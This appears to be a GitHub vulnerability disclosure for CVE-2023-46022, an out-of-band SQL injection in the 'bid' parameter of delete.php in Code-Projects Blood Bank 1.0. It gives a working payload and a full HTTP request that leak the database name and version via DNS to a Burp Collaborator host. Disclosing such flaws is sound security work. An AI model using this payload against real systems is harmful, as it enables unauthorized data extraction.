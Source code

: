 # CVE-2023-46022-Code-Projects-Blood-Bank-1.0-OOB-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/blood-bank-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/11/Blood_Bank_In_PHP_With_Source_code.zip
# Overview
+ Code-Projects Blood Bank V1.0 is exposed to a critical security vulnerability involving Out-of-Band (OOB) SQL Injection through the 'bid' parameter in the /delete.php file. This vulnerability arises due to a lack of proper protection mechanisms, enabling attackers to abuse the parameter and conduct OOB SQL injection attacks via Burp Collaborator. This may result in unauthorized access and extraction of sensitive information from the databases.
# Vulnerability Details
+ CVE ID: CVE-2023-46022
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: /delete.php
+ Parameter Name: bid
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-46022
+ https://nvd.nist.gov/vuln/detail/CVE-2023-46022
# Description
+ The 'bid' parameter in the /delete.php file of Code-Projects Blood Bank V1.0 is susceptible to Out-of-Band SQL Injection. This vulnerability stems from inadequate protection mechanisms, allowing attackers to exploit the parameter using Burp Collaborator to initiate OOB SQL injection attacks. Through this technique, an attacker can potentially extract sensitive information from the databases.

# Proof of Concept (PoC) : 
+ Intercept the request to delete.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `3'%2b(select%20load_file(concat('\\\\',version(),'.',database(),'.collaborator-domain\\a.txt')))%2b'`
+ Example request for `bid` parameter

```
---
GET /bloodbank/file/delete.php?bid=3'%2b(select%20load_file(concat('\\\\',version(),'.',database(),'.cuaxacpnxbay7ss8o3csf4bkwb22qtei.oastify.com\\a.txt')))%2b' HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://localhost/bloodbank/bloodinfo.php
Cookie: PHPSESSID=<some-cookie-value>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
---
```
+ Database and version information was seized via Burp Suite Collaborator
<img width="1447" alt="image" src="https://github.com/ersinerenler/CVE-2023-46022-Code-Projects-Blood-Bank-1.0-OOB-SQL-Injection-Vulnerability/assets/113091631/a75483d8-7a9b-475e-b32c-2a50ac849461">
